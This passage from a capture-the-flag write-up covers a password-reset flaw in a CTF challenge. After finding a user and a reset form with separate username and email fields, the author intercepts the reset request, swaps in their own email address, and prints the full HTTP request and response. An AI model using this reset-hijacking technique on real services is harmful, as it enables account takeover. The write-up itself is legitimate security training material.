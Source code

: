 ```


    
    <script src="/static/bootstrap/jquery.min.js?bootstrap=3.3.7.1.dev1"></script>
    <script src="/static/bootstrap/js/bootstrap.min.js?bootstrap=3.3.7.1.dev1"></script>
  </body>
</html>
```

You have discovered that:
1. a `/forgotpassword.html` page exists;
2. `true.grit@umbccd.io` is a user of the system;
3. the forgot password functionality uses two different fields for username and e-mail, with a JavaScript code to copy the value inserted into the input field.

As a consequence, it is sufficient to intercept the request and change the e-mail with one you control, leaving the discovered username.

```
POST /forgotpassword.html HTTP/1.1
Host: freewifi.ctf.umbccd.io
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:74.0) Gecko/20100101 Firefox/74.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: it-IT,it;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 171
Origin: https://freewifi.ctf.umbccd.io
Connection: close
Referer: https://freewifi.ctf.umbccd.io/forgotpassword.html
Cookie: WifiKey nonce=MjAyMC0wNC0xMCAyMzozNA==; WifiKey alg=SHA1; session=eyJjc3JmX3Rva2VuIjoiYTA2MmZkNTUyNzM3NmQwMTAxYTc4YzgwMmFlNmFkOTI5ZGQzNzU3OCJ9.XpD3NA.zDj47SdpKQnikt--V9WnN0zUmYQ; JWT 'identity'=31337
Upgrade-Insecure-Requests: 1

user=true.grit%40umbccd.io&csrf_token=ImEwNjJmZDU1MjczNzZkMDEwMWE3OGM4MDJhZTZhZDkyOWRkMzc1Nzgi.XpEDtg.QX6HWsJN_M2Apsv3wUSKn4AIhl4&email=m3ssap0%40yopmail.com&submit=Submit

HTTP/1.1 200 OK
Server: nginx/1.14.0 (Ubuntu)
Date: Fri, 10 Apr 2020 23:40:06 GMT
Content-Type: text/html; charset=utf-8
Connection: close
Vary: Cookie
Content-Length: 2018

<!DOCTYPE html>
<html>
  <head>
    <title>
Forgot your password?
</title>
    <meta name="viewport" content="width=device-width, initial-scale=1.0">

    <!-- Bootstrap -->
    <link href="/static/bootstrap/css/bootstrap.min.css?bootstrap=3.3.7.1.dev1" rel="stylesheet">
	<link rel="stylesheet" href="/static/css/main.css">

  </head>
  <body>
    
    

<div class="container">
```